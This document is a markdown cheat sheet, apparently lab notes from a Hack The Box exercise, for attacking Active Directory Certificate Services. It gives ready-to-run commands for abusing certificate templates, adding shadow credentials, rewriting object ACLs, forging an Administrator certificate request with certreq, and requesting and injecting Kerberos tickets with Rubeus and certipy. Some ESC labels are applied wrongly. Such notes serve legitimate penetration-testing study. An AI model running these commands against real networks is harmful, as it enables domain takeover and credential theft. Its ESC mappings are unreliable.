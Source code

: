 ### 🛠 Tools
- `Certify.exe` (from GhostPack)
- `certipy` (`certipy find`)
- `pywhisker.py` (`-a list`)
- `ADCSKiller` (for quick checks)

### 🔑 Key Output
- Vulnerable templates (e.g., `ESC1–ESC8`)
- Templates with `ENROLLEE_SUPPLIES_SUBJECT`
- Permissions like `Enroll`, `WriteOwner`, `AddKeyCredentialLink`

## 🔐 2. **Certificate Template Abuses**

### ▶️ Scenario: You Have `Enroll` & `ENROLLEE_SUPPLIES_SUBJECT`
**Attack Type: ESC1**
✅ Use **pywhisker** or **certipy**:
```bash
pywhisker.py -a add -t TARGET.USER -d domain.local -u youruser -H :NTLMHASH --dc-ip DC_IP
```
Or with certipy:
```bash
certipy req -u youruser -p yourpass -ca CA_NAME -template TEMPLATE -target TARGET.USER
```

### ▶️ Scenario: You Have Write/Control Over Template
**Attack Type: ESC2/ESC3/ESC4**
- Modify the template (add low-priv user to `Enroll`, enable `ENROLLEE_SUPPLIES_SUBJECT`)
```powershell
Set-ADObject -Identity "CN=TEMPLATE,...DN..." -Add @{pKIExtendedKeyUsage="1.3.6.1.5.5.7.3.2"}
```
Enroll with `certipy` or `pywhisker`

## 🧬 3. **Shadow Credentials (ESC8)**

You can use `AddKeyCredentialLink` to add your own certificate to a user.
```bash
pywhisker.py -a add -t victim.user -d domain -u youruser -H :NTLMHASH --dc-ip DC
```
✅ Output: **.pfx file** — extract TGT!


## 🛠 4. **Manipulate ACLs to Gain Access**
### Privileges:
- `GenericAll`, `WriteOwner`, `WriteDACL`, `WriteProperty`
✅ Tool: `dacledit.py` or `owneredit.py`

```bash
owneredit.py domain/user -target-dn "CN=...,DC=..." -new-owner attackeruser -action write
dacledit.py domain/user -target-dn "..." -action write -principal attackeruser -rights WriteOwner
```
Once you’re `Owner` or have `WriteDACL`, add `Enroll` permissions.

## 🏆 5. **Retrieve and Use TGT (or TGS)**
### 🔑 If You Have a .pfx or .pem Certificate
#### ✅ Use `Rubeus` to Request a TGT:
```bash
Rubeus.exe asktgt /user:Administrator /certificate:cert.pem /domain:haze.htb /ptt
```
✅ Or with `certipy`:
```bash
certipy auth -pfx user.pfx -domain haze.htb -dc-ip 10.10.11.61
```

## 📁 6. **Alternative Tools**

| Tool         | Use Case                         | Notes                                 |
| ------------ | -------------------------------- | ------------------------------------- |
| `certipy`    | End-to-end AD CS attacks         | Great for enumeration & TGT retrieval |
| `pywhisker`  | Python-based cert abuse          | Good for Linux workflows              |
| `Rubeus`     | TGT/TGS abuse via certs          | Requires Windows                      |
| `certutil`   | Enroll manually if access allows | Limited for abuse, but useful         |
| `SharpHound` | Find ACLs, rights & delegation   | Great for context                     |

## 🎯 Prioritizing Attack Paths

|Privilege You Have|Next Step|
|---|---|
|`Enroll` + misconfigured template|ESC1-style attack with `certipy` or `pywhisker`|
|`WriteDACL`/`WriteOwner` on template|Grant yourself `Enroll`, abuse ESC4|
|`AddKeyCredentialLink` on user|Shadow Credentials with `pywhisker`|
|`GenericAll` on user|Reset password or ShadowCreds|
|`DCSync` via ACLs|Dump hashes with `secretsdump.py`|
|PFX / PEM|Get TGT via `Rubeus` or `certipy`|
#### Build-in Windows tool certutil
Check all current templates: `certutil -config - -catemplates`
Create a request.inf file, change the Subject CN and UPN and CertificateTemplate
```
[Version]
Signature="$Windows NT$"

[NewRequest]
Subject = "CN=Administrator"
KeySpec = 1
KeyLength = 2048
Exportable = TRUE
MachineKeySet = FALSE
SMIME = FALSE
PrivateKeyArchive = FALSE
UserProtected = FALSE
ProviderName = "Microsoft RSA SChannel Cryptographic Provider"
ProviderType = 12
RequestType = PKCS10
KeyUsage = 0xa0

[Extensions]
2.5.29.17 = "{text}"
_continue_ = "upn=Administrator@haze.htb"

[RequestAttributes]
CertificateTemplate = EFS
```
Create a new request: ` certreq -submit -config "dc01.haze.htb\haze-DC01-CA" request.req cert.cer` (Find the full CA from `Certify.exe find /enrollee`)
Accept the certificate: `certreq -accept cert.cer`
Export to .PFX using PowerShell:
```PowerShell
$cert = Get-ChildItem -Path Cert:\CurrentUser\My | Where-Object { $_.Subject -eq "CN=victimUser" }
$cert | Export-PfxCertificate -FilePath victim.pfx -Password (ConvertTo-SecureString -String 'P@ssw0rd!' -Force -AsPlainText)
```
Use Rubeus to get TGT from PFX:
```
Rubeus.exe asktgt /user:victimUser /domain:domain.local /certificate:FILE:victim.pfx /password:P@ssw0rd! /outfile:victim.kirbi
```
Can also convert to Base64 first:
```bash
base64 -w 0 victim.pfx
```
Then pass it to Rubeus:
```
Rubeus.exe asktgt /user:victimUser /domain:domain.local /certificate:BASE64:<bigbase64string> /password:P@ssw0rd! /outfile:victim.kirbi
```
Verify it and inject into memory:
```
Rubeus.exe ptt /ticket:victim.kirbi
```